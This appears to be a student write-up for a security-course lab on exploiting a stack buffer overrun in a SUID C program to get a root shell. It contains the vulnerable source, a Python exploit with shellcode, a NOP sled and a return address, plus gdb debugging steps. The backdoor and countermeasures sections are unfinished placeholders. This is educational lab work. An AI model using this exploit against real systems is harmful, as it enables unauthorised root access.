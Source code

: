 # Language-based Security

## Lab 2 - Buffer Overruns

### Part 1 : Gaining root access

#### How it works ?

In order to gain root access to this machine, we are going to use the `addhostalias` executable file, which seems to be vulnerable to buffer overruns. In order to exploit this, we are going to go through several steps :
- analyse the vulnerability in the code
- use gdb to analyse how the program behave according to the arguments that we give to it
- find a way to exploit it, in our case we'll use Python which allow us to have our root shell more easily, since it's a high level language, we can focus on the content of our malicious code instead of how to generate it


Firstly let's have a brief explanation of how the stack works in this type of program. In order to maintain consistency during program execution, Linux OS stores in memory everything that is necessary for the program to works, that means it can push data in a stack, but also store address that point to other location memory (for example when a function call is performed). The schema below tries to summarize memory layout:

```
       0x11111111

   4 bytes (32bits OS)
< --------------------->


 ----------------------
|   RETURN ADRESS      | 
 ----------------------
|    BASE POINTER      |
 ---------------------- 
|                      |
|                      |
|                      |
|                      |
|                      |
|       STACK          |
|    (256 bytes)       |
|                      |
|                      |
|                      |
 ----------------------

       0x00000000

```


```c

#include <stdio.h>
#include <stdlib.h>
 
 
#define HOSTNAMELEN 256
#define IPADDR      1
#define HOSTNAME    2
#define ALIAS       3
 
#define HOSTFILE "/etc/hosts"
 
 
void add_alias(char *ip, char *hostname, char *alias) {
  char formatbuffer[256];
  FILE *file;
 
  sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias); // sprintf doesn't check if formatbuffer variable can be bound into 256 bytes, we are going to exploit this section
 
  file = fopen(HOSTFILE, "a");
  if (file == NULL) {
    perror("fopen");
    exit(EXIT_FAILURE);
  }
 
  fprintf(file, formatbuffer);
  if (fclose(file) != 0) {
    perror("close");
    exit(EXIT_FAILURE);
  }
}
 
 
int main(int argc, char *argv[]) {
  if (argc != 4) {
    printf("Usage: %s ipaddress hostname alias \n", argv[0]);
    exit(EXIT_FAILURE);
  }
 
  add_alias(argv[IPADDR], argv[HOSTNAME], argv[ALIAS]);
  return(0);
}

```

Our goal is then to craft a python exploit that will allow us to fill buffer with malicious code, and overwrite the return address near this 

```python
# run a shell on local machine
shellcode = ('\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80'
             +'\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0'
             +'\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80'
             +'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68'
             +'\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0'
             +'\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90'
             +'\x90\x90\x90\x90\x90\x90\x90\x90\x90')


# NOP signal, tells the CPU to go to the next instruction
nop = '\x90'
nops = nop*181

# estimated area of the end of the stack
nop_adress = '\x10\xf9\xff\xbf'

# 181 + 75 + 2 + 4 = 262 + 2 characters in printf = 264 bytes of data (instead of 256, so it will overwrite base pointer and return address)
print nops+shellcode,nop*2,nop_adress


```

#### How did we created our exploit ?


![How to use GDB to craft our exploit](/assets/lab2/gdb-demo.png)

- `gdb --args addhostalias $(python r00t.py)` entering debug mode for our program
- `(gdb) break fopen` place a break point to stop program execution when fopen function is called. In our case it will stop just after the buffer has been written to memory
- `(gdb) run` run the program until it finishes or that a breakpoint is reached
- `(gdb) x/100x $sp` display 100 current words in our memory where stack pointer is located, this allows us to analyse current stack state once our buffer is written with our three arguments


![Steps of our buffer overflow](/assets/lab2/buffer-overflow.png)


```

 ----------------------
|    RETURN ADRESS     | <------- now redirects approximately to the end of the stack
 ----------------------
|    BASE POINTER      | <------- not important in our case, but it's now overwritten with NOP operations
 ---------------------- 
|                      |
|       MALICIOUS      |
|         CODE         |
|                      |
|         ...          |
|         NOP          |
|         NOP          |
|         NOP          |
 ----------------------

```

The SUID bit is set so the program is vulnerable, because when a user run this program, its EUID (effective user id) it's the same as root, in order to have the possibility to edit /etc/hosts file, which root only has the right to write on it. The SUID bit is mandatory in this case in order to addhostalias to work properly.


`addhostalias $(python r00t.py)`

allow gaining root access using our python script





### Part 2 : Create a Backdoor

lorem ipsum

### Part 3 : Countermeasures

- Canaries : ...
- NX bit : ...
- ASLR : ...


### Sources that helped us gaining root access on the machine

1. [Buffer Overflow Attack, Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo&t=589s)
2. [GDB Petit Tutoriel, Daniel Hirschkof](http://perso.ens-lyon.fr/daniel.hirschkoff/C_Caml/docs/doc_gdb.pdf)
3. [Le Débogueur GDB, Anne Canteaut](https://www.rocq.inria.fr/secret/Anne.Canteaut/COURS_C/gdb.html)







